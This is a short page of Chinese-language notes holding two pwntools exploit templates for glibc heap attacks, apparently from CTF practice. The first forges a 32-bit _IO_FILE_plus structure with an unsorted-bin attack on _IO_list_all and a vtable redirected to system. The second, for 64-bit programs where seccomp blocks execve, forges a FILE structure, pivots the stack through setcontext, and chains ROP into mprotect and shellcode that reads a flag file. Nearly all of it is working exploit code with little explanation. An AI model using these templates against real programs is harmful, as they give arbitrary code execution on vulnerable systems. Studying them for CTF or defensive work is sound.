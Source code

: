 * 32位的_IO_FILE_plus构造模板：

```python
stream = "sh\x00\x00"+p32(0x31)   # system_call_parameter and link to small_bin[4] 
stream += ";$0\x00"+p32(IO_list_all-0x8)   # Unsorted_bin attack
stream +=p32(1)+p32(2)     # fp->_IO_write_ptr > fp->_IO_write_base
stream = stream.ljust(0x88,"\x00")  
stream += p32(0)    # mode<=0
stream += p32(0)
stream += p32(0)
stream += p32(vtable_addr)  # vtable_addr --> system
```
* 64位下seccomp禁用execve系统调用的构造模板：

```python
    io_list_all = libc_base+libc.symbols['_IO_list_all']
    setcontext = libc_base+libc.symbols['setcontext']
    mprotect = libc_base+libc.symbols['mprotect']
    Open = libc_base+libc.symbols['open']
    Read = libc_base+libc.symbols['read']
    Write = libc_base+libc.symbols['write']
    pop_rdi_ret = 0x0000000000400d93
    pop_rsi_ret = libc_base+0x00000000000202e8
    pop_rdx_ret = libc_base+0x0000000000001b92
    pop_rdi_rbp_ret = libc_base+0x0000000000020256
    pop_three_ret = 0x0000000000400d8f
    ret = 0x00000000004008d9

    context.arch = 'amd64'
    shellcode = asm(shellcraft.amd64.linux.cat('flag'))

    rop = flat(
        p64(pop_rdi_ret),
        p64(current_io_chunk&~0xfff),
        p64(pop_rsi_ret),
        p64(0x1000),
        p64(pop_rdx_ret),
        p64(7),
        p64(mprotect),
    )

    rop += p64(current_io_chunk+0x30+len(rop)+8)+shellcode
    
    fake_vtable = current_io_chunk+0xe0-0x18

    payload = p64(0) + p64(0x61)
    payload += p64(0xddaa) + p64(io_list_all-0x10)
    payload += p64(2) + p64(3)
    payload += rop
    payload = payload.ljust(0xa0,'\x00')
    payload += p64(current_io_chunk+0x30) #rsp
    payload += p64(ret) # to rop
    payload = payload.ljust(0xd8,'\x00')
    payload += p64(fake_vtable)
    payload += p64(setcontext+53) # 0xe0
```
